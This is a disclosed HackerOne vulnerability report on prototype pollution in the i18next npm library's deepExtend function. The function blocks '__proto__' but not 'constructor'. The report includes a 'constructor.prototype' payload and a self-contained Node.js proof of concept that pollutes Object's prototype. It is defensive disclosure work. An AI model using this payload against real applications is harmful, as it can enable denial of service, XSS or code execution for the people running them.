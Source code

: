 # [i18next] Prototype pollution attack

## Report Details
- **Report ID**: 968355
- **URL**: https://hackerone.com/reports/968355
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-08-27T09:16:19.390Z
- **Disclosed**: 2021-04-26T20:52:07.700Z

## Reporter
- **Username**: 0b5cur17y
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a prototype pollution vulnerability in i18next.
It allows to modify the prototype of a base object, which may result in DoS, XSS, RCE, etc. depending on the way the library is used.

# Module

**module name:** i18next
**version:** 19.7.0
**npm page:** ` https://www.npmjs.com/package/i18next`

## Module Description

i18next is a very popular internationalization framework for browser or any other javascript environment (eg. node.js).

## Module Stats

Weekly downloads: 1,003,465

# Vulnerability

## Vulnerability Description

The i18next API provides a function `addResourceBundle` in [src/ResourceStore.js:79](https://github.com/i18next/i18next/blob/master/src/ResourceStore.js#L79) (see API docs [here](https://www.i18next.com/overview/api#addresourcebundle)).
It allows to set many translations at once. Optionally, it can process nested objects and overwrite existing translations.
For example, you can call `i18next.addResourceBundle('en', 'translations', { homepage: { title: 'The English Title'} }, true, true);` to set the key "homepage.title" to "The English Title", overwriting it if it existed before.

The function `addResourceBundle` uses a utility function `deepExtend` to process nested objects.
It is defined in [src/utils.js:84](https://github.com/i18next/i18next/blob/44c2e7621a7e07660433b27122281b50886a1caf/src/utils.js#L84).
This function attempts to guard against prototype pollution by blacklisting the property `__proto__`.
However, it does not blacklist the property `constructor`.

To pollute `Object` you could thus set a translation like `{ constructor: { prototype: { polluted: true } } }`.

For an application to be vulnerable, it has to use  `addResourceBundle` with attacker-controlled input passed into the `resources` argument.
Moreover, both arguments `deep` and `overwrite` must be set to `true`. 

## Steps To Reproduce:

To try it out quickly, you can just copy the function `deepExtend` from [src/utils.js:84](https://github.com/i18next/i18next/blob/44c2e7621a7e07660433b27122281b50886a1caf/src/utils.js#L84)
and use it to apply the above-mentioned payload  to an empty object, with the `overwrite` argument set to `true`.

The following self-contained code snipped exemplifies how to do it.
Copy and paste to a file "main.js" and run in "node main.js".
It will print "Object is polluted".

```
// -------------- deepExtend as defined in i18next -------------- 
function deepExtend(target, source, overwrite) {
  /* eslint no-restricted-syntax: 0 */
  for (const prop in source) {
    if (prop !== '__proto__') {
      if (prop in target) {
        // If we reached a leaf string in target or source then replace with source or skip depending on the 'overwrite' switch
        if (
          typeof target[prop] === 'string' ||
          target[prop] instanceof String ||
          typeof source[prop] === 'string' ||
          source[prop] instanceof String
        ) {
          if (overwrite) target[prop] = source[prop];
        } else {
          deepExtend(target[prop], source[prop], overwrite);
        }
      } else {
        target[prop] = source[prop];
      }
    }
  }
  return target;
}
// --------------------------------------------------------------- 

const translations = '{ "constructor": { "prototype": { "polluted": true} } }';  
const existingData = {};                         
                                                  
deepExtend(existingData, JSON.parse(translations), true)

if ({}.polluted)
    console.log("Object is polluted")
```

# Wrap up

Select Y or N for the following statements:

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

The vulnerability may result in DoS, XSS, RCE, etc. depending on the way the library is used.

## Attachments
No attachments
